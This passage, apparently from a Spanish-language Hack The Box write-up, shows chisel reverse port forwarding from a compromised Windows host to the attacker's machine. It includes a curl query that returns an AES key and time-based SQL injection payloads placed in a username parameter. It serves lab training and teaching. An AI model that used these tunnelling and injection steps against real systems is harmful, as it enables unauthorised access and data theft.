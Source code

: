 ```bash
#Nos ponemos en escucha por el puerto 1111
❭ ./chisel server -p 1111 --reverse
2021/03/13 25:25:25 server: Reverse tunnelling enabled
2021/03/13 25:25:25 server: Fingerprint 1kWWQwYT0YxKjY9xsxSSL76G0IJLlLThmvRQ+t/ZdoE=
2021/03/13 25:25:25 server: Listening on http://0.0.0.0:1111
```

**Victima (cliente):**

```powershell
PS C:\Users\development\Videos> .\chisel.exe client 10.10.14.194:1111 R:1234:localhost:1234
2021/03/12 25:25:25 client: Connecting to ws://10.10.14.194:1111
2021/03/12 25:25:25 client: Connected (Latency 117.0553ms)
...
```

* Le indicamos el puerto e IP en el que estamos escuchando: `10.10.14.194:1111`.
* Cuando obtengamos la conexión, el puerto `1111` pasara a ser el puerto `1234` que se esta sirviendo localmente `localhost:1234`.

**Atacante (server):**

```bash
...
2021/03/13 25:25:25 server: session#1: tun: proxy#R:1234=>localhost:1234: Listening
```

Listo, validemos:

```bash
❭ curl "http://localhost:1234/index.php?method=select&username=administrator&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

En la web:

![316page1234_remPortFort_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/breadcrumbs/316page1234_remPortFort_done.png)

...

Despues de algo de pruebas sobre la URL, logramos obtener nuestro `SQLi` (es uno basado en tiempo), el parámetro vulnerable es `username`, con este simple payload logramos darle a la página un tiempo de respuesta de `5` segundos, si refrescamos y la página se demora ese tiempo, quiere decir que tenemos inyección (:

```html
http://127.0.0.1:1234/index.php?method=select&username=administrator' AND sleep(5) AND '1'='1&table=passwords
o
http://127.0.0.1:1234/index.php?method=select&username=a' OR sleep(5) AND '1'='1&table=passwords
```
